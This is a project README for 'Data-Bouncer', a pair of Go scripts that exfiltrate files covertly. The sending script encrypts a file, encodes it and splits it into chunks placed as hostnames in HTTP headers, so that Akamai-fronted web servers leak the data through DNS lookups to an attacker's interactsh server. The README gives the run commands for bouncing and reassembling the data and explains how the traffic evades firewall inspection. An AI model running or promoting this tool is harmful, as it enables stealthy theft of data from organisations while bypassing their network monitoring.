 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for educational purposes. Please don't do anything illegal.

One script that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. First encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh exfil server, processes and reassembles the chunks and does the reverse of decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and does a dns lookup of our exfil server from those headers.
- Then we're able to collect each of those dns lookups back to our exfil server and reconstruct the data from those headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those headers for collection.
- Therefore, this makes it an extremely stealthy way of exfiltrating data.
